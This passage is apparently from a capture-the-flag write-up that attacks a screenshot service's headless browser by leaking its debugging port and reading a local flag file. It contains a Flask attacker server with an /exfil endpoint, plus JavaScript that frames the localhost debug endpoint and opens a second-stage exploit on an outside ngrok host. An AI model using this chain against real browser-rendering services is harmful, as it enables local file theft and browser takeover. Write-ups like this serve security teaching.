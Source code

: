 This was sufficient to leak the debugging port within 5-10 seconds. Once we get the port number, we need to modify our second-stage payload with the updated port number, so I wrote the port number to a `port.txt` file to be read by another script later on.

```python
from flask import Flask, request, send_file

app = Flask(__name__)


@app.route('/<path:path>')
def send(path):
    return send_file(path)


@app.route('/exfil', methods=['POST'])
def receive():
    print(request.data)
    return request.data


@app.route('/leak')
def leak():
    port = request.args.get('port')
    open("port.txt", "w").write(port)
    return "OK"


if __name__ == '__main__':
    app.run('0.0.0.0', 5000)
```

### Reading the Response

Now that we know the port, we could fetch `http://127.0.0.1:<PORT>/json/new?file:///tmp/flag.txt` to tell the browser to open a new page with the `file:///tmp/flag.txt` URL.

The response would then contain a `webSocketDebuggerUrl` that allows us to send commands to the browser through a WebSocket connection.

Unfortunately, due to the same-origin policy, we can't directly read the response through the Fetch API. But by loading an `iframe`, the response is shown in the screenshotter service as an image. We can add the following to our script above, to load the `iframe` and open a second-stage exploit after 10 seconds to communicate with the WebSocket URL.

```javascript
...

let ifr = document.createElement('iframe')
ifr.src = `http://localhost:${port}/json/new?file:///tmp/flag.txt`

ifr.height = 1000
ifr.width = 1000
document.body.appendChild(ifr)

setTimeout(() => {
    window.open("http://986d-42-60-68-174.ngrok.io/exploit.html")
}, 10000)

...
```
